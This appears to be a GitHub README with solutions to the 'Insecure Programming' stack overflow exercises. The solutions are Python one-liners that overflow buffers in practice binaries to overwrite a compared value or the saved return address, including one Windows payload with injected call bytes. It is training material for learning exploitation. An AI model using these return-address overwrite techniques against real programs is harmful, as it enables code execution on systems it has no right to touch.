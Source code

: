 This document is intended to contain all my solutions to the [Insecure Programming](https://github.com/deadbits/InsecureProgramming) excercises. I will update this document as I advance in the excercises.

####Stack excercises

1. `$ python -c "print 'A'*80 + chr(0x44) + chr(0x43) + chr(0x42) + chr(0x41)" | ./stack1`
2. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x3) + chr(0x2) + chr(0x1)" | ./stack2`
3. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x0) + chr(0x2) + chr(0x1)" | ./stack3`
4. This excercise it's a bit different, since one of the values being compared to `cookie` it's a newline (0xa). Because of this you can't, or at least I wasn't able to get the corresponding memory positions to be equal to the constant. Then, the idea is to directly overwrite the return address so it points where you need it. In order to do so, you need to overwrite more memory positions so you can reach the ones where the function's return address it's stored.
  
  `$ python -c "print 'A'*96 + chr(0xb9) + chr(0x84) + chr(0x04) + chr(0x08)" | ./stack4"`
  Note: This solution was tested in Linux. This may not work for you (the distance between the buffer and the location of the return addres may vary. 
5. `$ python -c "print 'you win\x00' + '\x90\xcc' + '\x68\xf4\xfe\x18\x00' + '\xff\x15\x8c\x20\x40\x00' + 'A' * 67 + chr(0xfc) + chr(0xfe) + chr(0x18) + chr(0x0)" | stack2.exe`
  Note: The same as ex 4 but for Windows.
